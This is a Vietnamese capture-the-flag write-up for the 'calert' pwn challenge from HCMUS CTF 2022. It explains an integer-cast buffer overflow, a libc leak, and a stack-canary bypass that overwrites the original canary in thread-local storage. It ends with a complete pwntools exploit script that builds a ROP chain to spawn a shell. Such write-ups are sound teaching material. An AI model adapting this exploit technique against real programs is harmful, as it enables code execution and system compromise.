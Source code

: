 ###### tags: `pwn` `tls` `canary`

# calert - HCMUS CTF 2022

Sau giải author hint đọc về "Thread Local Storage" nên t giải lại.

Chương trình chạy 2 thead, một cái là routine chính cái còn lại để alert timeout
```c=
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  pthread_t newthread; // [rsp+0h] [rbp-20h] BYREF
  pthread_t v4[3]; // [rsp+8h] [rbp-18h] BYREF

  v4[2] = __readfsqword(0x28u);
  sub_5567A28DB5BB();
  sem_init(&sem, 0, 0);
  pthread_create(&newthread, 0LL, (void *(*)(void *))start_routine, 0LL);
  pthread_create(v4, 0LL, (void *(*)(void *))sub_5567A28DB2A9, (void *)0x96);
  sem_wait(&sem);
  exit(0);
}
```

Trong main routine, do sai lầm trong cast biến `int` thành `usigned int` của hàm `read_buf` dẫn đến một cái buffer overflow khổng lồ.

![](assets/README/zCIXoYZ-165519302083013.png)

Ngoài ra stack chưa được dọn nên còn có thể leak libc base (khoảng từ biến `v5` đến `v6`) bằng cách không nhập gì vào v5

![](assets/README/euHVrnc-165519302083115.png)

Vướng mắc lúc đi thi là không có cách nào để leak canary (chỉ leak được có 127 bytes) cũng không brute được (vì hàm `read_buf` chỉ dừng lại khi nhận newline)

## Thread Local Storage 

*Cập nhật thêm sau :)) *

Link đọc về: 
https://chao-tic.github.io/blog/2018/12/25/tls#introduction
https://www.openwall.com/lists/oss-security/2018/02/27/5

Giá trị canary được lấy từ một cái struct được sinh ra mỗi khi chương trình tạo thread mới. Register `fs` chính là địa chỉ của struct này (trong thread hiện tại) và 0x28 mà ta thường thấy trong `fs:0x28` là offset của `stach_guard` trong struct này. 

```c=
  typedef struct
  {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
                 thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    int gscope_flag;
    uintptr_t sysinfo;
    uintptr_t stack_guard;
    uintptr_t pointer_guard;
    ...
  } tcbhead_t;
```

Vấn đề là struct này lại được lưu ở BÊN DƯỚI stack của thread ?? :v T chưa đọc kỹ nên cũng chưa biết nên sẽ cập nhật trong tương lại :v 

![](assets/README/yxFrbiw-165519302083117.png)
![](assets/README/XVSH3sB-165519302083119.png)

Vậy ta overwrite luôn canary "gốc" là bypass được canary check

## Những phát sinh khác khi overflow lượng lớn

### SIGSEGV trong atoi internal

T không biết mấy hàm internal này làm gì với stack (tương lai sẽ đọc sai :v) nhưng để vượt qua thì t sửa r8 thành một vùng writeable và thấy k còn lỗi nữa

![](assets/README/NZum0AK-165519302083121.png)

## Code exploit 

Ban đầu t dùng rop chain `system('/bin/sh')` nhưng bị dính sigsegv khi close thread ?? (sẽ đọc trong tương lai :v)
```python=
chain = [rdi, 0x068732f6e69622f, rsi, writeable1, mov_ptr_rsi_rdi,
        rdi, writeable1, ret, libc.sym['system']]
```
![](assets/README/Eo8UNr8-165519302083123.png)

nên t chuyển sang dùng one_gadget 

```python=
#!/usr/bin/env python3
from pwn import *

context.aslr = False
context.arch = 'amd64'
# host = '61.28.237.86'
# port = 1234
exe = './calert'
elf = ELF(exe)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
script = '''
b *0x0000555555555448  
b *0x0000555555555606
b *0x00005555555554bd
c
'''
if args.LOCAL:
    p = process(exe)
elif args.GDB:
    p = process(exe)
    gdb.attach(p, gdbscript=script)
else:
    p = remote(host, port)

def senddata(len, data):
    p.recvuntil(b'input: ')
    p.sendline(str(len).encode())
    p.send(data)

# leak libc base
senddata(-1, b'\n')
senddata(127, b'\n')
data = bytes.fromhex(p.recvline().decode())
xor_key = b'0123456789ABCDEF'
res = b''
for c, i in enumerate(data):
    res += (i ^ xor_key[c % 16]).to_bytes(1, 'little')

libc_base = u64(res[8:16]) - libc.sym['write'] - 100
log.info('leak libc base ' + hex(libc_base))
libc.address = libc_base

# get shell 
writeable1 = 0x1be370 + libc_base
writeable2 = 0x1be390 + libc_base
one_gadget = 0xcbd20 + libc_base
rdi = 0x0000000000026796 + libc_base
rsi = 0x000000000002890f + libc_base
rdx = 0x00000000000cb1cd + libc_base
mov_ptr_rsi_rdi = 0x0000000000118b7d + libc_base
ret = 0x00000000000a85da + libc_base
# chain = [rdi, 0x068732f6e69622f, rsi, writeable1, mov_ptr_rsi_rdi,
#         rdi, writeable1, ret, libc.sym['system']]
chain = [rsi, 0, rdx, 0, one_gadget]
rop_chain = b''.join(map(p64, chain))

payload = b'a'*0x108
payload += b'b'*8   # overwrite canary
payload += b'a'*8 + rop_chain
payload += cyclic(2224 - len(payload), n=8)
payload += p64(writeable2)
payload += cyclic(0x860+0x108 - len(payload), n=8)
payload += b'b'*8   # overwrite original canary
payload += b'\n'
senddata(-1, payload)

p.interactive()

```

Mặc dù code chạy trên môi trường local thôi nhưng chắc remote cũng tương tự